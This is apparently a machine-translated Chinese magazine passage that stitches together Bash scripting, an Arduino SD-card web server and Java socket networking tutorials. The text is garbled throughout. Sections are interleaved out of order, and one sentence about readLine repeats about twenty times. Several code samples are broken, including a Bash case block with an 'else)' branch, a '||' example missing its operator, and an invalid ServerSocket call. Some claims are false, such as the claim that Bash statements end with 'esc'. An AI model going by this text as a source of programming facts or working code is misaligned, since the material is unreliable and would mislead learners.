立方星（CubeSats）是极小的卫星，它们由实验人员制造，这些人员能够搭便进入轨道，并完全运行 `Linux` 的潜力返回月球甚至火星。但此外，我们也不需要被一个为 2002 年的波音 787 设计的飞行计算机锁定。由于为了在严酷太空环境中生存的可靠性要求，它拥有过时的硬件，因此不运行 `Linux`。所有的笔记本电脑都运行 `Linux`，当猎户座号升空时，机载笔记本电脑可能会代表 `Linux` 的最后前疆？

37

牛仔 Wei

# 教程

## `Linux` 基础知识

第三部分

### 精通 Shell 脚本：

### 在 `Bash` 中尝试的更多技巧

我们探索了更多结构和命令，这些工具可以帮助脚本成为一种完整的编程语言。

上个月，我们看到 `Bash` 脚本可以作为一种专门的编程语言。`Bash` 脚本功能非常丰富，我们学习了条件判断、变量、循环、命令行参数和函数。

这个月，我们继续之前的课程：`Bash` 脚本有许多强大的结构。我们还将学习更改和分组输出的复杂方法，以及如何使用我们在第一篇文章中遇到的管道（pipelines）来链式命令。我们上个月学到，`Bash` 中的每个命令、函数都会返回状态码，这一事实在整个文中将非常重要。

几周后，你将对 Shell 脚本感到相当熟悉，你应该努力开始编写脚本来加速你日常执行的任务。你可以在脚本中使用广泛的工具；例如，你可以使用 `xdotool` 程序自动按下按键和点击鼠标。我们将专注于 Shell 脚本的现实应用，从……开始。

在本期中，我们探索了这样一个事实：`Linux` 中的每隔一个命令、函数或脚本都会带数字代码退出，其中 0 表示正常退出（这在某些其他基于数字的退出中是不常见的），其他表示退出。我们将从标准输入读取文本到变量中。`read` 正常以代码 0 退出，但当它遇到文件结束符（EOF）时会以代码 1 退出，因为用户按了 `Ctrl+D`。下面的代码可以轻松地读取一行文本并进行处理。`Bash` 中的 `while` 循环的行为与其他语言中的行为类似。`while` 循环和 `case` 语句用于生产级 Shell 脚本：

```bash
while read -r line; do
  if [ "$line" != "exit" ]; then
    case "$line" in
      exit) break
      *) echo "$line"
    esac
  fi
done
array=(${line[@]})
if [ "${array[0]}" = "ERROR" ]; then
  echo "ERROR: not found"
  return 1
fi
return 0
```


John Bowers 是编程和计算机科学的大学导师。他喜欢亲自动手，并且每天使用终端。

# 资源

- 运行 shell 的终端（任何 `Linux` 的标准配置）可用文件：of.com

38

每当命令行程序从控制台运行时，它都可以从另一个程序接收输入。例如：

```bash
while read line
do
  echo "You typed: $line"
done
```

```bash
until curl
do
  sleep 5
done
```

```bash
case $1 in
  run)
    run_main_code
    ;;
  test)
    run_tests
    ;;
  help)
    display_help
    ;;
  *)
    echo "Invalid argument"
    ;;
esac
```

## Case 语句

在 `Bash` 中处理处理多个值时，`case` 结构是 `switch` 结构的更优雅的替代方案。

让我们深入检查一下它。第一行 `case $1 in` 意味着我们根据 `$1` 的值进行分支。这后面跟着一系列 case 参数，每个参数由一个模式和一些代码组成。例如，如果命令行参数是 `run`，那么


```bash
case $1 in
  run)
    run_main_code
    ;;
  test)
    run_tests
    ;;
  help)
    display_help
    ;;
  *)
    echo "Invalid argument"
    ;;
  else)
    echo "Please use 'run', 'test' or 'help'."
    ;;
esac
```

`case` 语句用于根据命令行参数决定做什么，它会匹配第一个项，`Bash` 将运行相应的函数模式。`run`、`test` 和 `help` 后面跟着一个右括号 `)`，它隔开了我们想要运行的代码。在这种情况下，我们匹配字符串，但 `Bash` 也可以匹配通配符：

```bash
case $1 in
  test)
    run_tests
    ;;
esac
```

### 输出情况

在 `Bash` 中，`case` 语句用于确定是否使用迭代、事实或选择。不同的语句根据机制工作，类似于 `if` `switch` 等。我们然后让它们由程序直接运行。我们也可以在循环中使用相同的 `switch`。反之，你可以使用不同的程序来条件你的 `if` 语句。

# 教程

# Linux 核心基础


# 命令行 vs 图形界面

为了终止语句，我们使用关键字 `esc`。

如果我们想打印出 `y` 以外的内容，可以将其作为参数传递给 `y`：`yes linux` 将一直打印，直到被强制停止。

当你习惯了在 `OE` 中编程时，使用命令行可能看起来很奇怪，但它有自己的优势。正如你所看到的，对于小型任务使用 `CLI`（命令行界面）始终是一个好主意，因为命令行工具在小型任务的编程中非常有效。

## 管道：yes 命令

当我们引入管道时，可能会给人一种印象，认为它们只对按行输入的程序有用，但事实并非如此。每个命令行程序都从 `stdin` 读取输入，因此可以接受来自管道的输入。

# 处理事物的头尾（head 和 tail）

例如，许多包管理器（如 `APT`, `YUM`, `Yum`, `Pacman`）在安装软件前会提示用户输入 `Y`：

两个非常有用的命令是 `head` 和 `tail`。`head` 打印输入的几行，而 `tail` 打印最后几行。

```
$ sudo apt-get install
$ y
```

```
$ yes | head -3
```

如果你要安装多个软件，你可能不想每次都按 `Y`。幸运的是，`Linux` 提供了一个可以帮助你的命令。这个命令被称为 `yes`，它会一直打印字母 `Y`，直到你按下 `Ctrl+C` 停止它：

```
$ yes
y
y
<Ctrl+C>
```

这意味着你可以通过管道包管理器的输出来跳过确认步骤：

# 链接命令

```
$ yes | apt-get install
$ y
```

在这里，一切都会被自动打印。由于 `yes` 无限打印 `y`，无论程序请求多少次确认，都会持续。

我们使用 `tail` 命令来显示配置的最后（最多）几行

```bash
#!/bin/bash
/configure
make install
```

然而，这是不对，因为这三个字符串都可能失败。如果 `configure` 或 `make` 阶段任何一个失败，你就不希望执行脚本剩余部分。

为了处理这种情况，`Bash` 提供了双 `&&` 运算符。只有当第一个命令执行成功且退出码为零时，第二个命令才会运行。

```bash
#!/bin/bash
/configure && make && make install
```

这样，如果脚本 `config` 以退出码 0 失败，剩余步骤将不会运行。

`&&` 的反向运算符是双管道运算符 `||`。这意味着只有当第一个命令以非零退出码终止时，第二个命令才会运行。

```
mkdir tmp echo "Failed to create directory"
```

链接命令的第三种方法是使用分号 `;`。这与通常将命令写在单独行不同，但在同一行上使用多个命令有时是有效的：

```
echo hello; echo world
```

# 命令分组

有时，当在使用管道时，将命令组合在一起是有用的，因为它们像一个命令一样在工作。因此，程序 `GDB`（一种常用于调试 `C` 和 `C++` 程序的命令行工具）启动速度快并接受命令。例如，如果你想执行一行代码，跳到下一行，并且命令

> 有时，将多个命令组合在一起是有用的，因为它们像一个命令一样在工作

`print` 用于输出程序内部变量和表达式的值。

在调试过程中，我们经常发现自己必须反复相同的步骤。我们可以通过有效使用断点来避免部分这个问题。例如，假设你想在第 100 行设置断点并启动 `GDB`，打印前 100 行代码（或迭代），然后返回终端。你可以使用以下命令：

# 让你的 Web 服务器兼任物联网设备，控制家中的各种设备

将此 `Sketch` 代码上传到你的 `Arduino` 中。如果运行正常，你应该能够通过浏览器连接到设备并显示传感器读数。如果你没有在输入引脚上连接任何东西，显示的可能是 0 或垃圾数据，不过没关系，我们才刚刚开始。

## 02 读取 HTTP 请求

在 `Arduino` `IDE` 中打开串口监视器，并在浏览器中连接到你的设备。屏幕上会出现一行文本。这是浏览器发送给 `Arduino` 的 `HTTP` 请求。`GET` 方法是大大写的，后面紧跟所请求的资源。简而言之，浏览器正在请求某种资源（例如网页）。`Web` 服务器在确定请求性质并评估资源后，应该返回一个响应消息。例如，如果找不到页面，它可能会返回 `HTTP/1.1 404 Not Found` 作为头部且不带资源。`HEAD` 请求之后会跟随着一条消息，但不包含响应的主体。

为了节省空间，`get` 请求应该调用一个函数返回头部信息，然后结束消息体。通过创建一个可以响应 `HEAD` 信息的函数，第一个客户端将 `print()` 输出 `SD` 卡上资源的可用性和发送的请求，我们希望通过传递参数来修改此代码，但目前我们将使用 "200 - OK"。这应该检查 `SD` 卡上是否存在请求路径的文件，如果存在则返回 `OK`，如果未找到则返回错误代码，并带有资源内容或错误页面。

> 全局：不要害怕声明元素变量。在每次都访问完整数据的简单程序中，通常没有必要。客户端和服务器都需要将 `SD` 文件声明为全局变量：

```cpp
if (client.available()) {
  String line = client.readStringUntil('\n');
  String reqtype;
  if (reqtype == "GET") {
    serveGET();
  } else if (reqtype == "HEAD") {
    serveHEAD();
  }
}
```

可以通过 `SD.exists()` 完成，但要在 `Sketch` 顶部添加一行：

```cpp
#include <SD.h>
```



我们在这里要做的是通过响应特定的 `HTTP` 请求类型来模拟服务器。要做到这一点，你需要编写一个函数来逐字符读取 `HTTP` 头部到字符数组中，并处理空格。然后你应该将该字符数组转换为字符串，并将结果与 `Arduino` 将要提供的方法进行比较。目前，我们将使用 `GET` 和 `HEAD`。你还想要存储资源名称。

## 03 提供 HTTP 请求

`GET` 请求类似于 `HEAD` 请求，但它在头部之后有一个主体。

要返回内容，你还需要声明并打开文件，读取内容（参见 `SD` 示例 `Sketch`），并将文件内容打印回客户端。

## 04 创建网站文件

一旦完成服务器测试，请为 `Arduino` 创建一组 `HTML` 文件。这些文件使用 `HTML` 和 `CSS` 将创建一个自动兼容不同浏览器的具有一定交互性且优雅的网站。由于每次有人打开页面时我们处理 `GET` 请求，我们还可以使用 `` 标签并显示自己的图片。

然而，你不能在 `Arduino` 服务器上使用脚本，因此 `PHP`、`JavaScript` 和其他语言的一些技巧并不一定有效。此外，向客户端发送 `BMP` 图像将需要一段时间。不过，创建一个面向的极简主义网站是可能的，并且可以在几分钟内完成。

在保存文件时，确保扩展名不要超过三个字符，文件名不要八个字符。

# 教程

# Arduino


一个可以托管基础网站的服务器，通过正确的路由器配置，可以从外部访问。所有功能（如 CSS 动画、过滤器和脚本）都需要在客户端完成，任何数据库查询都无法实现。好消息是，我们至少支持一些 HTTP 特性，对于大多数访问者来说，这看起来就像一个网站。尽管如此，我们的功能仍然相当受限。假设有人想在这个问题上留评论：作为开始，我们需要添加另一个 HTTP POST 方法。



从长期来看，`SD` 库不允许我进行更多操作了，而且尝试让你的代码运行比假设它如此简单容易得多：你的作者在这个问题上浪费了一天时间：当，将 `SD` 卡插入扩展板并重置你的 `Arduino`。

然而，由于使用了 `Arduino` `Uno` 或 `Leonardo`，我们都受到了最大程序大小的限制，该限制为 `28KB`。`SPI`、`SD` 和以太网库占据了大量空间，我们也面临同样的命运。如果有任何意外的元素（尽管保持请求滚动），

## 05 测试你的服务器

在主循环（`main loop`）中，你现在应该能够将请求的方法字符串与 `Arduino` 提供的方法组合，然后调用相应的函数。将此新 `Sketch` 上传到板上并尝试你的输出。你应该能够使用本地 IP 地址后跟文件名，例如 `192.168.1.46/home.htm`。服务器尚未完全运行，但我们正在实现。

创建一个面向的网站是可能的，并且可以在几小时内完成并清理代码。你只需要在主循环中留出一点空间给额外的函数和一个。

## 06 修剪你的程序

如果你完成了上述问题，你已经成功创建了一个微型服务器，应该调用 `GET` 函数（也调用 `HEAD`）并检索资源名称。你可能需要修改现有代码以增加文件名。如果还有程序空间，你可能想在元数据中保存名称以创建新资源。计算接收到的字符数量并检查是否超过限制。如果超过限制，停止保存并返回错误请求。如果没有，你可以在客户端进行检查。

但是有百种方法可以使用 `PHP` 和 `MySQL`，你还为存储设备数据添加了安全性。不过，没有方法可以使用 `Arduino` 连接到其他设备。

> 帮助就在手边。在这个教程中有许多示例——我们的代码作为服务器运行，我们建议你自己写。


## 07 提供 POST 请求

`POST` 请求告诉服务器需要创建一个新资源。在 `HTML` 页面上的这些请求可以使用表单生成。这允许你指定方法和操作（在页面加载后）。当使用提交时，`HTTP` 请求发送加载的任何值。消息格式为 `method=filename`。

为了提供 `POST` 请求，你需要验证请求并调用方法。此函数应该读取表单指定的资源名称并作为文件提供。它应该在 `SD` 上打开文件，从客户端读取并在之后保存。

```cpp
void loop() {
  String body = "";
  while (client.available() > 0) {
    char c = client.read();
    if (c != '\r' && c != '\n') {
      body += c;
    }
  }
  if (body.length() > 0) {
    // 在这里处理 body
  }
}
```

`Sketch` 使用了 `2852` 字节（`99%`）的程序空间，变量使用了 `164`（`1%`）的动态内存。首先，无论发现了什么，都会返回 `"200 - OK"`。服务器的行为就像 `Arduino` 正在运行 `"http/html"`。如果使用的图像太大，服务器将变慢。为了修复这些问题，你需要创建一个函数检查文件是否在 `SD` 上，如果是，则返回代码和资源类型。需要时应 `HEAD` 方法。如果没有文件，返回 `404` 错误；如果方法不是 `Arduino` 提供的，返回 `405` 错误。图像应该压缩并批量发送。

| 方法 | `GET` | `POST` | `404` |
| --- | --- | --- | --- |


## 08 加载提交

为了完成博客评论部分，你需要将所有信息加载到服务器并显示在网页上。可以考虑将信息存储在数据库并在那里访问。唯一的问题是，如果你无法安装 `PHP` 和 `MySQL`，如果你有更大的程序存储，你必须创建一个像数据库一样的自定义方法。如果你有一个“普通” `Arduino`，一切都将在客户端完成。

许多方法中的一种是不学习 `JavaScript`，但那确实需要时间。最简单的方法是构建一个没有脚本标签页面只有 `object` 标签的网站。这些 `object` 标签指向文本文件，这些被插入到 `HTML` 主体的段落中。当页面加载时，浏览器会显示所有图像。每个文件标签检查并处理其他布局，但服务器可以保存并在页面加载。恰当地加载内容会更好——可能将最新的放在前面更好。如果你知道怎么做。

## 10 添加硬件方法

那让 `Arduino` 真的超出了它的舒适区！现在让我们回到我们拥有的：与硬件接口。我们可以使用服务器作为远程控制 `Arduino` 的基础设施。要做到这一点，你需要在循环函数中与其他 `HTTP` 请求创建一些请求比较。

要控制设备，你可以通过 `Telnet` 或等效服务器地址发送此关键字和任何进一步指令。你甚至可以创建一个简单的手机 `App`，在底部发送预设命令。

用它做什么呢？这个任务可以是任何内容，从控制灯光到任何你需要的。取决于服务器网页的大小，将此 `Arduino` 作为基站是很有用的，基站通过无线电接收命令并发送给其他 `Arduino`。项目越大，你越可能需要升级 `Arduino`。或者，你可以利用 `POST` 方法并使用简单的 `HTML` 表单作为控制器。

## 09 与世界分享

`Web` 服务器已完成。你可以发送和接收网页、文本、图像、`GIF`。如果是，则快速返回。通过简单的 `API` 或动态 `DNN`，你可以构建一个数据库并通过发送一系列数字将人们连接到你的服务器。

然而，存在发送和接收大图像的问题。这总是很慢——即使对于一些流行的网站来说也是如此。目前，我们接受只有小图像，但如果我们真的需要，我们始终可以链接云存储服务上的资源。

不幸的是，没有办法能通过上传 `2GB` 文件来攻击我们的服务器——这并不是写在程序里的。如果有空间，在你的程序中，

# Java 教程

第三部分

## 学习 Java：将你的 Java 游戏广播到网络

`John Gowers`

他是一位编程与计算机科学的大学导师，深耕 `Java`。他热于在他获取的每一个设备上安装 `Java`。

`Java` 拥有一个功能齐全的网络库，允许程序在不同的计算机之间通信



# 资源

- `OpenJDK` `1.8` `JDK` `openjdk.net`

- `JavaFX` `javafx.net/projects/openfx`

- `Eclipse` `IDE` `www.eclipse.org`

- `Telnet` 客户端 `www.github.org/software/telnet`

教程可用文件 `files.co.uk`

当我们思考计算机网络时，我们想的是万维网，我们可以用它发送消息、观看视频或进行视频通话。事实上，我们在设备上进行网络连接只需要通过一种名为“套接字”（`socket`）的设备将计算机连接到其他计算机，并使用套接字来发送文本。我们发送的文本是 `HTML` 格式；它并不一定加密，但在所有情况下都使用了相同的机制。`Java` 语言拥有丰富的网络库，允许我们利用这些特性为我们自己的程序服务。

在本教程的结束时，你已经在单台计算机上构建了一个冒险游戏。我们将将其变为一个网络游戏，其中服务器在一台计算机上，而用于游戏的图形客户端可以在另一台计算机上。我们可以在此基础上构建，制作出游戏的多人在线版本。

安装完成后，如果 `Eclipse` 已经打开，请确保重启它。如果你已经完成了上个月的教程，上个月的重要部分是这个月我们将在 `Eclipse` 中导入项目并将其复制到拷贝磁盘中。要做到这一点，打开 `Eclipse` 并从菜单栏顶部选择 `File > Import...`。在弹出的图中，选择 `General > Importing Projects into LWBD Disc`，然后点击 `'Browse...'` 并导航到该路径。点击 `'Finish'` 导入项目。

我们没有为本期提供任何额外的代码：直接使用上个月的代码即可。

# 网络概念

本教程的计划如页面顶部的图所示。我们将程序分为两个独立的部分：“客户端”和“服务器”。服务器将通过名为“套接字”的设备与客户端通信，套接字是一种允许文本通过网络从一个程序流到另一个程序的通道。我们想展示如何设置我们的网络，以便在不使用现有代码的情况下实现这一点；现在我们不再直接与游戏通信，我们的 `GUI` 现在将与此处的套接字通信

# 入门

本教程不需要任何特殊软件，但如果你在这个月加入我们，你应该确保在你的系统上安装了 `OpenFX`。寻找一个名为 `openfx` 的包。一旦你拥有了它，游戏将使用套接字进行输入和输出。


网络上的计算机通过称为 IP 地址的数字进行标识；例如 `185.30.157.1`。计算机还有 65,536 个“端口”，由用于发送和接收信息的数字标识。我们通过用冒号分隔 IP 地址和端口号来引用特定的特定的机器；例如 `185.30.157.1:`

如果一个程序想要广播到某台机器上的特定端口，我们称之为“服务器”。如果客户端想要执行工作，我们需要第二个程序，称为“客户端”，它将与服务器通信。客户端可以运行在与服务器相同的同一台计算机上，也可以运行在不同的计算机上。由于客户端知道 IP 地址和端口，它可以尝试建立连结。如果服务器接受了连接，套接字就会产生，客户端和服务器就可以通过它交换信息。

这是计算机网络的基础通用原理。当我们在浏览器中打开网站时，我们与该网站构建的端口建立一个套接字。`Web` 服务器被配置为使用 `HTML`、`CSS`、`JavaScript` 等文本格式通信，而我们的浏览器被配置为将这些格式解释为网页。

## 导入项目

左：`Eclipse` 方便从归档文件导入项目


| 选择根目录： | 浏览 |
|---|---|
| 选择归档文件： | `/home/user/test.zip` | 浏览... |
| 项目： | 全选 |
| | 取消全选 |
| | 完成 |

> 当我们在浏览器中打开网站时，我们使用端口和套接字的方式与此项目相同

- 选择项目

- 将项目导入到工作区

- 隐藏工作区中已存在的项目

- 添加到项目

- 小部件： 

| < 上一步 | 下一步 > | 完成 |

调用 `Server.accept()`（阻塞）直到其他程序尝试连接端口 `8009`。当连接发生时，套接字被创建，客户端和服务器都可以使用它来往复发送文本。

注意，如果在该 IP 地址的端口上没有服务器程序广播，那么 `Java` 将抛出一个异常。我们的代码需要妥善处理此异常。

下一步是学习如何使用流（`streams`）来实现。如果你知道如何使用 `System.in` 和 `System.out` 在控制台上读写文本，你已经知道如何使用流了。由于套接字的输入输出与使用控制台相同，你只需要将 `System.in` 替换为套接字的输入，将 `System.out` 替换为套接字的输出。

`Java` 拥有一个强大的网络库。`java.net` 包让在所有程序中实现这一点变得简单。在我们的服务器程序，如果我们要在端口 `8009` 上设置服务器，我们可以这样做：

```
Socket serverSocket = new
ServerSocket(185.30.157.1, 8009);
```

同时，客户端程序需要一种连接服务器。它通过创建一个套接字来实现：

```
Socket clientConnection = new
Socket(185.30.157.1, 8009);
```

注意 `185.30.157.1` 只是一个示例；我们需要使用其他的。服务器可以使用以下方式接受连接：

```
Socket client = serverSocket.accept();
```

左：当我们在 `Eclipse` 中运行服务器时，可以使用终端检查它是否工作正常



`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。`reader.readLine()` 抛出 `IOException`，我们需要一些代码来处理。

`www.uxer.com` 47

## Java 教程



- `out = new PrintWriter(socket.getOutputStream());`

- `in = socket.getInputStream();`

- `reader = new BufferedReader(new InputStreamReader(in));`

```
ServerHead(Socket socket) throws IOException {
    out = new PrintWriter(socket.getOutputStream(), true);
    in = socket.getInputStream();
    reader = new BufferedReader(new InputStreamReader(in));
}
```

我们将创建一个 `ServerHead` 类的实例。然后我们可以执行：

```
ServerHead server = new ServerHead(socket);
```

左：当我们在 `Eclipse` 中运行服务器时，可以使用终端检查它是否工作正常


## 设置服务器

我们将使用 `eggs.network.server` 创建一个新包。

我们的设计应该遵循第 44 页给出的模式。也就是说，我们将扩展 `Player` 类以包含服务器特定的输入输出组件。首先，创建一个名为 `ServerHead` 的新类。该类应该实现 `OutputPlayer` 接口，以便我们可以将其直接插入 `GameModel` 类。在此类中创建一个 `PrintWriter` 私有字段 `out`。使用 `PrintWriter` 向套接字打印。你可以在构造函数中使用该字段的值。

```
ServerHead(Socket socket) throws IOException {
    out = new PrintWriter(socket.getOutputStream(), true);
    in = socket.getInputStream();
    reader = new BufferedReader(new InputStreamReader(in));
}
```

## 修改旧代码

整个教程过程中你会害怕进入旧类并修改代码，因为你可能认为旧类的对象仍然有效。例如，如果你在控制台模式下玩游戏，`Player` 类的库存会在游戏时改变。这是因为库存在对象之间共享，且 `Set` 保证库存仍然是同一个对象。如果你想更改库存，必须使用 `getInventory()` 和 `setInventory()` 方法。我们将让库存返回一个 `Collection`，它更通用，可以使用 `Set`、`List` 或任何你想实现的类型。然后更改返回类型，转到“重构”并在 `HumanPlayer` 实现中更改方法签名，以修改实现方法的签名并更改字段类型。


你可以在 `HumanPlayer` 内部选择想要使用的特定集合类型。如果你将 `getSet()` 改为 `ArrayList`，项目将保持顺序。

跨 `HumanPlayer` 的库存的可读输出并不适合通过套接字发送。更完整的方案是：

### 图 3



上方：当我们通过 `socket` 发送地图瓦片时，在移动端上打印玩家并不是更好。

其次，`BufferedReader.readline()` 方法一次从 `socket` 读取一次输入。正如图 3 所示，客户端将读取八行独立的输入。我们需要告诉客户端服务器已完成工作，因此在打印完消息后结束 `socket` 是一个好主意。最后，我们需要刷新 `PrintWriter()`，因为从性能角度考虑，通过 `socket` 发送大块文本比发送许多行行单独的行要好得多。调用 `PrintWriter.flush()` 方法可以确保每条消息都发送到客户端。

# 多态允许我们在相同功能的不同实现之间进行切换，并将它们相互替换

我们可以在辅助方法内部构建此功能，例如：

```java
private void endMessage() {
  server.printInput("end");
  server.flush();
}
```

下一步是设置服务器，使其能够从 `socket` 读取输入。由于服务器运行在单线程上，它似乎需要 `loadeggs` 包中的 `ConsoleInputController`，以便它能读取来自 `System` 以外的输入。将类重命名为 `StreamInputController` 并添加一个名为 `reader` 的调用字段以确保万无一失。如果提供了构造函数，在此字段中添加额外代码。添加构造函数来设置此字段的值：

```java
public StreamInputController(InputStream in) {
  reader = new BufferedReader(new InputStreamReader(in));
}
```

更改类的构造函数会破坏 `loadeggs.App` 类（即游戏版本的主类），因此我们必须修复。更改如下：

```java
ConsoleInputController = new ConsoleInputController();
StreamInputController = new ConsoleInputController(System.in);
```

最后一步是为服务器创建主类。在 `EggsServer` 中创建一个带有 `main()` 方法的类。我们使用来自 `loadeggs.App` true的模型。区别在于：

- 我们使用 `ConsoleOutput` 的 `Handler`。
- 我们使用 `StreamInputController` 来初始化 `System.in` 的输入 `socket`。

为了实现这一点，我们需要向服务器添加代码。目前，选择该端口的 `ServerSocket` 并编写代码创建它。如上一节所示，添加一行代码调用 `ServerSocket` 实例的 `accept()` 方法并返回该实例。我们使用该实例初始化服务器和 `StreamWriterController` 来处理对象。

一旦设置好服务器，我们几乎可以复制 `load eggs` 中 `main` 方法get代码。将 `ConsoleOutput` 替换为 `ServerHandler` 以初始化 `StreamInputController`。再次，多态允许我们在类的不同实现之间进行切换并将它们相互替换。

## 设置客户端

创建客户端的工作量与创建服务器一样大。然而，我们正在做相同的事情；将我们的 GUI 输入和类连接到 `socket`，而不是连接到服务器。

最后，创建一个新的客户端类并将其添加到 `loadeggs.GameInteger` 类中。该类将替换我们类中的 `StandardGameModel`。它负责监听来自 GUI 的输入命令，并通过 `socket` 将它们发送到服务器。此类类应该有一个 `PrintWriter` 类型的字段，该字段在构造函数中进行设置：

```java
public MessagePrinter(OutputStream output)
```

# Java 教程

- 重用你的代码

确保你查阅寻找可以避免重复代码的方法。例如，如果你使用提供的代码从文件读取游戏地图，你可以在翻译器中改进并使用它。你可能需要重写原始类，以抽象出可以在其他地方使用的代码。

```java
{
  out = new PrintWriter(outputStream);
}
```

或者，`MessagePrinter` 类可以继承 `MessagePrinter` 类（此处原文可能可能有误）并在其构造函数中调用父类构造函数。

`MessagePrinter` 类还应该实现 `Observer`，例如 `StandardGame` 类。这意味着它需要实现 `update()` 方法来响应来自所观察者的消息。在我们的情况下，我们将此类作为内部类，接收形式为 `move` 的消息，并在接收到它们时将这些消息直接传递给 `socket`。因此，例如 `update()` 方法可能如下：

### 图 4

```java
switch (messages.get(i).charAt(j)) {
  case '.':
    mapTiles[i][j] = new LandTile();
    break;
  case 'E':
    mapTiles[i][j] = new LandTile();
    SimpleEmptyTile(null, 0);
    break;
}

out.printMessage(message);
out.flush();
```

// `message` 是来自服务器的接收。

我们将创建的下一个类是 `ServerListener`。该类继承 `Observable` 类。它的作用是监听来自服务器的的消息，将它们封装成单独的命令发送到程序的其余部分。我们将在下一节编写此代码。`ServerListener` 类将有一个 `Socket` 类型的字段，应在其构造函数中初始化。它也将实现 Server 接口。

此循环应该负责将服务器输入封装成 `Collections`（`ArrayList` 或 `LinkedList`），然后将这些传递给观察者以便它们处理。在我们的情况下，`ServerListener` 类应该反复从 `socket` 读取消息，如果进入 "move"，它应该调用 `setChanged(true)` 和 `notifyObservers()`，以便程序的其他部分处理它。

- 跨客户端

为了显示它，不需要知道原始类是什么，创建一个空。下面的代码是 `run()` 方法，我们在线程中运行。我们将编写此方法，使其包含一个从服务器读取行的循环：

```java
public void run() {

  String serverMessage;

  while (server.readLine() != null) {

    // 执行某些操作

  }

}
```

在将其整合之前，我们将创建的最后一个组件是对于渲染非常重要的类。我们将在 `udgame.network` 中创建一个类来存储瓦片信息。该类将实现 Server 接口，其 `update()` 方法应该处理由 `ServerListener` 提供的块。

- 写客户端

在 Listener 类中添加一个 `Output` 类型的字段。在此，编写构造函数使其接受 `outputView` 作为参数并使用它设置字段。`update()` 方法应该读取由 `ServerListener` 提供的字符串集合，然后调用视图的所有所有方法。首先，我们写一个 `switch` 语句查找集合中的第一个字符串，并确定我们处理的是地图还是物品。我们需要编写代码来处理收到的消息。注意 `updateTiles()` 方法接收 `MapGrid` 对象数组，如图 3 所示，我们需要将其转换为 `MapGrid`。图 4 显示了瓦片。但是如果瓦片字符

- 下一个

### 图 5

| `@Override` |
| :--- |
| `public void displayMapTiles(MapTile[] grid)` |
| `Platform.runLater(() -> {` |
| `MapView mapArea = gui.getMapArea();` |
| `mapArea.displayMapGrid(grid);` |
| `});` |
| `});` |

# 对象流

使用 `ObjectInputStream` 和 `ObjectOutputStream` 类，我们可以通过 `socket` 发送对象而不是文本。你可以轻松地通过 `socket` 发送对象。

```java
ObjectInputStream in = new ObjectInputStream(socket);

ObjectOutputStream out = new ObjectOutputStream(socket);
```


我们可以使用`ObjectOutputStream`将对象写入socket并使用`ObjectInputStream`读回。这些类的工作原理是将对象转换为文本，然后在socket的另一端转换回对象。使用这些类，将被强制以Java序列化格式读写。然而，其他语言不支持Java序列化。如果你使用的是Java或任何具有相似序列化格式的语言，可以通过socket发送这些对象。如果是客户端不应该访问的信息，或者你想保护蛋，可以使用方法在将它们放入包之前隐藏它们。`Platform.runLater()`方法确保你的代码在JavaFX线程上执行。注意我们使用lambda表达式来使代码简洁。

